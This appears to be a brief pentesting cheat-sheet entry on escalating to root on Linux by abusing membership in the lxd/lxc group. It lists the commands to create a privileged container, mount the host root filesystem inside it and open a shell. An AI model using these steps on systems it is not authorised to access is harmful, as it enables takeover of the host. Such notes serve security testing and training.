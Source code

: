 To abuse Linux Containers or Linux Daemon, We have to see if our id has lxd/lxc in it
```id```
We can import a Container or create one. Admins often use templates for this which has little to no security.
```lxc import image-name```
After verifying if the image has been imported correctly then configure the image.
```lxc init image-name privesc -c security.privileged=true```
```lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true```
This flag disables all isolation features that allow us to act on the host
Start the Container and then execute ```/bin/bash```
Now mount the root directory in it.
